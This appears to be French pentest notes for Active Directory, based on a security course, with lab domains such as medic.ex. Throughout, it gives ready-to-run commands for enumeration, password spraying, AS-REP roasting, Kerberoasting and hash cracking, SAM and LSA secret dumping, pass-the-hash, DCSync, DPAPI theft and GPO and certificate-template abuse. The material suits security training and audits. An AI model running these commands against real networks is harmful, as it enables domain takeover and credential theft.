






# Resources
https://openclassrooms.com/fr/courses/7723396-assurez-la-securite-de-votre-active-directory-et-de-vos-domaines-windows/7944459-tirez-un-maximum-de-ce-cours 

# Reconnaissance
Scanning & Enumeration
## Scan nmap classique
## Scan Netbios
Scan extrêmement rapide qui permet de faire un lien entre ip et nom des machines.
L'outil nbtscan permet ce type de scan.
```bash
nbtscan 10.0.0.0/16 
```
Il est ensuite possible de faire des scans plus précis sur les machines qui nous intéressent. 

## scan crackmapexec
```bash
proxychains cme smb 192.168.3.201-203
```
Si certains hôtes ont la signature smb de désactivé, cela peut permettre des attaque par smb relai.


## ldapsearch
L’utilitaire ldapsearch (page du manuel Idapsearch) permet d’effectuer des requêtes vers un serveur LDAP, il permet donc de demander anonymement à un contrôleur de domaine des informations sur le domaine.
```bash
ldapsearch -x ldap://<controleurDeDomaine ou @ip> -s base -LLL
```



L’entrée rootDomainNamingContext indique le nom du domaine racine de la forêt. Il se peut qu’il soit similaire au domaine que vous auditez, ce qui signifie que vous êtes dans le domaine racine. Il y a de grandes chances pour que ce soit alors le seul domaine de la forêt.

## Enumération des controleurs de domaine
Pour énumérer l’ensemble des contrôleurs de domaine, l’utilitaire nslookup sera d’une grande aide. Chercher les enregistrements DNS ayant en sous-domaine _kerberos._tcp, qui est propre aux contrôleurs de domaine.
```bash
nslookup -type=SRV _kerberos._tcp.<domaine>
```
Si le nom du domaine est inconnu: 
On peut faire un scan nmap sur le port 88 qui est celui de kerberos.

## Enumération d'autorités de certification racine
```bash
certipy find 'medic.ex/pixis:P4ssw0rd@dc01.medic.ex'
```

## Recherche du serveur DNS 
```bash
nslookup medic.ex
```
## Recherche de points de vulnérabilité
### Serveurs
#### Recherche serveurs d'impression
```bash
nmap -p 9100,515,631 10.10.10.0/24 -n -Pn
```
*-n désactive le DNS et -Pn la découverte basé sur icmp qui eut poser problème en cas d'utilisation de proxychains.*

##### Recherche et exploitation de service d'impression
proxychains rpcdump.py 192.168.3.202 | grep -A2 -B2 MS-RPRN
Use printerbug pour déclencher l'autjentification sur le service. https://github.com/dirkjanm/krbrelayx
Only LANMAN and NTLMv1 hashes from Responder can be cracked by crack.sh
See Hades writeup and https://crack.sh/netntlm/

#### Serveurs SCCM
SCCM (System Center Configuration Manager) est une solution proposée par Microsoft, qui permet notamment de gérer les applications et mises à jour d’un parc. Parmi ses nombreuses fonctionnalités, SCCM permet de déployer des applications, des mises à jour, des configurations d’applications ou de services, et permet aussi d’avoir un inventaire du parc informatique. Pour que cela soit possible, SCCM doit avoir également une vue dégagée du réseau, et possède souvent des droits privilégiés sur les machines administrées. Si vous arrivez à prendre la main sur un serveur SCCM, vous pourrez découvrir de nouveaux sous-réseaux, et potentiellement compromettre de nouveaux postes.

#### Serveurs WSUS
Les serveurs WSUS (Windows Server Update Services) permettent aux administrateurs de déployer des mises à jour Microsoft sur l’ensemble des machines du parc. De par leur rôle, ces serveurs ont très souvent une visibilité complète sur l’ensemble du réseau. Compromettre un serveur WSUS vous permettra alors de rebondir sur le reste du réseau aisément. 

#### Serveurs SCOM
Enfin, les serveurs SCOM (System Center Operations Manager) permettent de surveiller la performance et les événements de systèmes Windows. Ils permettent notamment de superviser un Active Directory, des bases de données MSSQL, ou encore des serveurs Exchange. De la même manière que les solutions précédentes, un serveur SCOM doit avoir une visibilité sur les serveurs supervisés pour parvenir à ses fins. Il peut également avoir des droits privilégiés sur certains d’entre eux.


### Récupérer la politique de mot de passe
A utiliser dans powershell
```powershell
Get-ADDefaultDomainPasswordPolicy
```
Exemple:  
```text
ComplexityEnabled           : True
DistinguishedName           : DC=medic,DC=ex
LockoutDuration             : 00:10:00
LockoutObservationWindow    : 00:30:00
LockoutThreshold            : 3
MaxPasswordAge              : 90.00:00:00
MinPasswordAge              : 1.00:00:00
MinPasswordLength           : 7
objectClass                 : {domainDNS}
objectGuid                  : dae14cb7-a84e-4d1d-8490-27399d6fbad5
PasswordHistoryCount        : 24
ReversibleEncryptionEnabled : False
```
Cette politique de mot de passe impose un mot de passe d’au moins 7 caractères (MinPasswordLength) et une complexité minimale, via le paramètreComplexityEnabled. Dans un intervalle de 30 minutes (LockoutObservationWindow), le compte sera bloqué après 3 tentatives erronées d’authentification (  LockoutThreshold  ). Il sera automatiquement débloqué après 10 minutes (LockoutDuration). Enfin, le mot de passe doit être modifié au moins tous les 90 jours (  MaxPasswordAge  ).

### Recherche d'informations sensibles
```powershell
Get-ADObject -LDAPFilter "(|(ObjectClass=user)(ObjectClass=computer))" -SearchBase "DC=MEDIC,DC=EX" -Property * |  where description -ne $null | Select Name, Description, ObjectClass
```
Permet de récupérer la liste des utilisateurs ainsi que leur description. Les descriptions cachent parfois des mdp temporaire par exemple.

ldapdomaindump permet de faire la même chose
```bash
ldapdomaindump -u ‘medic.ex\pixis’ -p P4ssw0rd dc01.medic.ex
```

### Recherche d'utilisateurs à cibler
- administrateurs de l’entreprise : c’est le groupe d’administration le plus élevé. Dans une forêt comportant plusieurs domaines, il sera automatiquement ajouté au groupe d’administration de chaque domaine ;
- admins du domaine : présent dans chaque domaine, ce groupe est administrateur local de tous les postes du domaine ;
- administrateurs : ce groupe est également propre à chaque domaine. Il a des droits élevés sur toutes les opérations liées au domaine, notamment sur les contrôleurs de domaine.

Autres groupes privilégiés:  
https://docs.microsoft.com/fr-fr/windows-server/identity/ad-ds/plan/security-best-practices/appendix-b--privileged-accounts-and-groups-in-active-directory#built-in-privileged-accounts-and-groups 

L'outil bloodhound permet de visualiser l'appartenance des utilisateurs à différents groupes.

Pour collecter les informations sur l’Active Directory, il faut utiliser SharpHound depuis une session authentifiée. Si vous êtes sur une machine du domaine, vous pouvez lancer l’outil sans argument. Si en revanche vous êtes sur votre machine d’attaque, il faudra dans un premier temps vous mettre dans le contexte d’un utilisateur du domaine avec l’utilitaire RunAs

```bash
runas /netonly /user:medic.ex\pixis cmd.exe
.\SharpHound.exe
```

Alternative:
```bash
proxychains bloodhound-python -u bob -p 'Passw0rd1!' -d htb.local -ns 192.168.3.203 --dns-tcp -c All
```


- htb.local = nom de domaine
- bob = nom d'utilisateur testé
- Passw0rd1! = mot de passe de l'utilisateur
- 192.168.3.203 = adresse ip du controleur de domaien


*Si vous rencontrez des problèmes lors de l’exécution de SharpHound depuis votre propre machine, veillez à ce que les paramètres réseau de votre machine virtuelle soient correctement configurés. Mettez l’adresse IP d’un contrôleur de domaine comme serveur DNS, et paramétrez le nom de domaine comme suffixe DNS. Vous pouvez également renseigner les paramètres --domain et --domaincontroller lors de l'exécution de SharpHound afin de lui préciser explicitement le nom du domaine que vous souhaitez analyser, ainsi qu'un contrôleur de domaine que vous avez identifié. *

Quand l’outil termine de récolter les informations, il produit un fichier ZIP qu’il est possible d’importer dans BloodHound.

### Dump anonyme du ldap - Enumération d'utilisateurs
```bash
./windapsearch-linux-amd64 -d 192.168.3.203 -m users --proxy 127.0.0.1:1080
```
- où 192.168.3.203 est l'adresse du controleur de domaine  
- et --proxy précise l'adresse et le port de la connection socks chisel

### Bruteforce kerberos - Enumération d'utilisateurs
Utilisation du dictionnaire names.txt fourni par la secList recommandé.
Depuis une machine rebond linux
```bash
./kerbrute userenum names.txt -d htb.local --dc 192.168.3.203
```

### Recherche de mots de passe faibles
!Il faut faire attention à la politique de mot de passe.
L'outil sprayhound permet de tester sur le domaine si un mot de passe est utilisé par plusieurs utilisateurs
```bash
sprayhound -U ./utilisateurs.txt -p <mdp> -d medic.ex -dc 10.10.10.2
```
On peut tester également les mots de passe identique au nom d'utilisateur. En fournissant une liste de nom d'utilisateur avec -U
```bash
sprayhound -U ./utilisateurs.txt -d medic.ex -dc 10.10.10.2
```


### crackmapexec
l'outil crackmapexec permet de réaliser de nombreux types de scan :
https://wiki.porchetta.industries/smb-protocol/scan-for-vulnerabilities


# Exploitation (Gaining Access)
## SMB 
### Cartographier les partages réseau (smb)
Les partages réseau sous Windows utilisent le protocole SMB pour les échanges de fichiers. Ce service est en écoute sur le port 445.
On peut vérifier les partages réseau accessibles par un utilisateur avec la commande suivante:
```bash
cme smb 10.10.10.0/24 -u pixis -p P4ssw0rd -d medic.ex --shares
```

Il existe d'autre partages réseau qui peuvent être scanné avec snaffler:
```powershell
snaffler.exe -s -o snaffler.log
```

### Connexion à un partage réseau distant (smb)
```bash
proxychains smbclient.py 'htb.local/bob:Passw0rd1!@192.168.3.203'
```
- htb.local = nom de domaine
- bob = nom d'utilisateur testé
- Passw0rd1! = mot de passe de l'utilisateur
- 192.168.3.203 = adresse ip du serveur smb
Puis utilisation de la commande
```bash
use <nom_share>
```

### Exécution de service à distance
Avec SMB, vous avez la possibilité de créer à distance un service et de l’exécuter. Pour cela la suite impacket fourni l'outil psexec:
```bash
psexec.py medic.ex/pixis:P4ssw0rd@dc01.medic.ex
```

## NTLM
Source: https://openclassrooms.com/fr/courses/7723396-assurez-la-securite-de-votre-active-directory-et-de-vos-domaines-windows/7945406-propagez-vous-lateralement-avec-le-protocole-ntlm 
Principe:

1. Réception du challenge.
2. Envoi de la réponse.
3. Recherche du hash NT dans la base de données SAM.
4. Calcul de la réponse attendue avec le hash NT de la SAM et le challenge.
5. Comparaison avec la réponse du client.

### Relais NTLM

L'outil ntlmrelayx.py permet de réaliser ce type d'attaque.

## Kerberos
_Source_ : 
 - Cours ticketing kerberos https://openclassrooms.com/fr/courses/7723396-assurez-la-securite-de-votre-active-directory-et-de-vos-domaines-windows/7953376-effectuez-un-mouvement-lateral-avec-le-protocole-kerberos 
 - Abus authentification kerberos https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberos-authentication 
_Info de base_:
- **TGT** : Ticket-Granting-Ticket, ticket d'accès dont l'authenticité du possesseur a été validé par le serveur kerberos.
- Ticket de service : Ticket fourni par le serveur kerberos après demande du client qui fourni au préalable son TGT. Si celui-ci n'est pas modifié, un ticket de service lui est fourni par le serveur. Ce nouveau ticket contient une copie du TGT et est chiffré par le compte de service associé. C'est le service qui vérifiera si l'utilisateur a les droits d'accéder à la ressource.

### AS-REP Roasting
Each time an object authenticates to the domain over Kerberos, a timestamp is encrypted with the user's password and sent to the DC (known as AS-REQ). The DC then decrypts this data to determine if the password is correct is not. After this the DC responds with an AS-REP, a part of which is encrypted with the user's password. This process is known as pre-authentication, and serves as a protection against online bruteforce.  
However, in the event where a user's pre-authentication is disabled, any user can send an AS-REQ request for the account and receive its AS-REP data. This data can then be subjected to an offline bruteforce attack where we can attempt to crack the user's password.
```bash
proxychains GetNPUsers.py htb.local/bob@dc1.htb.local -dc-ip 192.168.3.203 -no-pass
```
- htb.local = nom de domaine
- bob = nom d'utilisateur testé
- dc1.htb.local = nom du controleur de domaine
- -dc-ip 192.168.3.203 = adresse du controleur de domaine

### Cracking AS-REP
Si GetNPUsers retourne une chaine de caractère, on peut tenter de la craquer avec hashcat:
```bash
hashcat -m 18200 -a 0 .\<path>.hash /usr/share/wordlists/rockyou.txt
```

# Privilege Escalation 

# Path traversal / Compromission de domaine
## NTLM
### Path the hash
1.  extraire les hash de sam
(nécessite les droits admin) utilisation de l'option --sam
```powershell
cme smb 10.10.10.0/24 -u pixis -p P4ssw0rd -d medic.ex --sam
```
2. utilisation hash NT
option -H pour spécifier le hash NT et --local-auth
```powershell
cme smb 10.10.10.0/24 -u Administrateur -H aad3b435b51404eeaad3b435b51404ee:01a27c88a6c1bd0ab0944599129c58a6 --local-auth
```
pour les outils propres à l suite impacket -hashes
```powershell
psexec.py Administrateur@dc01.medic.ex -hashes aad3b435b51404eeaad3b435b51404ee:01a27c88a6c1bd0ab0944599129c58a6
```

## Kerberos
_Source _:
Cours délégation kerberos https://openclassrooms.com/fr/courses/7723396-assurez-la-securite-de-votre-active-directory-et-de-vos-domaines-windows/7945561-compromettez-le-domaine-en-elevant-vos-privileges 
_Info de base_:  
 - Délégation Kerberos : Le principe est de permettre à un compte de service de se faire passer pour un utilisateur auprès d’un autre service.
 
     Il existe trois types de délégation :
     - Non contrainte 
     - contrainte (liste de ressources autorisées)
     - contrainte basée sur les ressources :
  
  
### Abus de délégation
Permet de lister les machines qui sont configurées pour de la délégation.
```bash
findDelegation.py medic.ex/pixis:P4ssw0rd
```


 
### Kerberoasting
Puisque le ticket de service est chiffré avec la clef du compte qui gère le service on peut chercher à le déchiffrer pour retrouver le mot de passe. Si les comptes de services sont généralement des comptes machines avec des mots de passes robustes, certains services sont parfois lancés avec des comptes utilisateurs. Dans ce cas le mot de passe peut être plus faible et donc déchiffrable.
```bash
GetUserSPNs.py -request medic.ex/pixis:P4ssw0rd -outputfile hashes.kerberoast
```
Pour tenter de les casser:
```bash
hashcat -m 13100 ./hashes.kerberoast /home/pixis/wordlist.txt
```
! Le compte krbtgt n'est pas kerberoastable, il possède un mot de passe long et complexe.

### Pass-the-ticket
Si vous compromettez une machine, ou un compte administrateur sur un poste, vous pouvez tenter de retrouver des tickets Kerberos en mémoire pour les réutiliser. En effet, si vous trouvez le ticket TGT d’un autre compte, vous pourrez potentiellement le réutiliser pour vous faire passer pour ce compte, sous réserve qu’il ne soit pas expiré. 

##  Recherche d'identifiant sur les machines compromisent
### Dump base lsasss
Contient la liste des identificants des utilisateurs de la machine : 

L'outil LSASSY permet d'automatiser la tâche sur de multiple machines

### DPAPI
Une des fonctionnalités de Windows, appelée DPAPI (Data Protection API), permet d’enregistrer de manière chiffrée des informations sensibles sur un ordinateur. C'est le cas de chrome, mdp wifi, tâches planifiées…
L’outil [**DonPAPI**](https://github.com/login-securite/DonPAPI) a été créé pour ça. Son but est d’extraire les secrets DPAPI (mais pas que) sur un ensemble de machines à distance. Il faut que vous soyez administrateur local des postes ciblés.
```bash
DonPAPI.py medic.ex/pixis:P4ssw0rd@10.10.10.2
```

### Base de registre

Cette base contient les données de configuration du système d'exploitation et des autres logiciels installés désirant s'en servir. Vous pourrez y trouver les identifiants des comptes locaux dans la ruche SAM. C’est ici qu’on peut extraire le hash NT de l’administrateur local de la machine. Il y a également les secrets LSA dans la ruche SECURITY. Ces secrets sont les mots de passe des comptes utilisés pour exécuter des services, par exemple.
Ces secrets peuvent être extraits à l’aide de l’outil secretsdump.py, toujours de la suite Impacket.
```bash
secretsdump.py medic.ex/pixis:P4ssw0rd@10.10.10.2
```
Si vous avez compromis un contrôleur de domaine, cet outil ira en plus extraire tous les secrets de tous les utilisateurs et postes du domaine. En effet, il utilisera le protocole DRS (Directory Replication Service) pour se faire passer pour un contrôleur de domaine, et demander à la cible une réplication complète. Cela s’appelle la technique du DCSync.
Enfin, comme la base de registre est utilisée par de nombreux logiciels pour y stocker des configurations, il est fort possible qu’ils enregistrent des mots de passe enregistrés par des utilisateurs.

### GPO
Certaines GPO peuvent contenir des mots de passe pour cela, l'outil Group3r.exe permet de les énumérer.
```powershell
Group3r.exe -s -f group3r_output.log
```


## Modification de GPO
L’outil BloodHound vous permet de découvrir les utilisateurs ou groupes qui ont le droit de modifier une GPO. Si jamais vous en faites partie, alors le mieux est d’utiliser votre machine virtuelle Windows Server pour aller modifier la GPO.
! Il est fortement recommandé de ne pas utiliser des scripts de modification qui pourraient casser les GPO en place. Il est également recommandé de faire des backup avec l’outil Backup-GPO de Microsoft.
l existe donc beaucoup de moyens de compromettre les utilisateurs ou machines sur lesquels s’appliquent des GPO, mais un exemple simple est d’ajouter un administrateur local. Pour cela, il suffit d’éditer la GPO que vous avez le droit de modifier, d’aller dans Computer Configuration > Preferences > Control Panel Settings > Local Users and Groups, et de mettre à jour le groupe Administrators en y ajoutant un nouveau membre que vous contrôlez.

## Exploitation de pki
Le problème, c’est qu’il existe très souvent des **erreurs de configuration dans ces modèles de certificats**. Si un utilisateur a le droit de modifier un modèle, ou si le modèle est trop permissif et permet à un utilisateur de modifier plus d’informations que prévu, ça peut conduire à une vulnérabilité, voire une compromission du domaine.

> Par exemple, il arrive qu’un modèle de certificat destiné à l’authentification des utilisateurs autorise de spécifier le nom associé au certificat. Cela signifie que vous pouvez demander ce certificat en spécifiant qu’il sera signé par un administrateur. Utiliser ce certificat signé vous permettra alors de vous authentifier en tant qu’administrateur.

Autre vulnérabilité, si vous avez le droit de modifier un modèle de certificat, vous pouvez le configurer comme expliqué précédemment, afin de pouvoir le demander avec un nom d’utilisateur arbitraire.

L’outil [Certify](https://github.com/GhostPack/Certify) a été conçu pour énumérer les vulnérabilités potentielles dans la mise en place d’une PKI Active Directory. Il a été écrit en C#, et donc doit être exécuté depuis une session Windows authentifiée.
```bash
certify.exe find /vulnerable /ca:dc01.medic.ex /domain:medic.ex
```